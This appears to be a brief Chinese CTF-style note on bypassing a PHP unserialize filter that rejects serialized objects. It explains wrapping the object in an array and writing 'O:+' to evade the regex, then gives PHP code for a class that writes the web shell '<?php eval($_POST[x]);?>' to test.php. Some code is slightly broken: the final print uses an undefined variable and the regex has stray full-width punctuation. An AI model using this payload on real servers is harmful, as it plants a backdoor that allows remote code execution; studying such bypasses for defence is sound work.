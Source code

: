 有过过滤，不让对象序列化数据类型进行反序列化
```
if(substr($data,0,2) !== 'O:' && !preg_match('/O:\d:\/'，$data））{
    return unserialize($data);
}
```
substr($data,0,2) !== 'O:' 不让对象类型，则使用数组类型。
不让用O:d，则O:+d绕过。
```
<?php
class T{
       public $c="./test.php";
       public $t='<?php eval($_POST[x]);?>';
}

$a=new T();
$b = Array($a);
print(serialize($test));
```
